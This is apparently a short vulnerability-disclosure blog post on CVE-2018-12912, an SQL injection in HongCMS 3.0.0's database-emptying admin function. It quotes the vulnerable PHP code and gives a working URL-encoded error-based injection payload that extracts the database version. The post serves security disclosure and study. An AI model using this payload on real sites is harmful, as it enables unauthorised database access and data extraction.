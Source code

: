 +++
title = "HongCMS 3.0.0 – SQL Injection"
author = "Hzllaga"
date =  2018-06-29
description = ""
categories = ["原创"]
tags = ["代码审计","PHP","SQL注入"]

+++
Vulnerability file: admin\controllers\database.php<!--more-->
{{< highlight php >}}
private function EmptyTable($tablename)
{
    $this->db->exe("DELETE FROM `$tablename`");
    $msg = '已完成清空数据库表: ' . $tablename . '<br/>';

    return $msg;
}
{{< /highlight >}}

The $tablename parameter controllable.

POC (Administrator Privilege):

{{< highlight php >}}

/admin/index.php/database/operate?dbaction=emptytable&tablename=hong_vvc%60%20where%20vvcid%3D1%20or%20updatexml%282%2Cconcat%280x7e%2C%28version%28%29%29%29%2C0%29%20or%20%60

{{< /highlight >}}

![](https://cdn.wtfsec.org/img/20200223163530.png)
CVE:[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-12912](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-12912)
exploit-db:[https://www.exploit-db.com/exploits/44953/](https://www.exploit-db.com/exploits/44953/)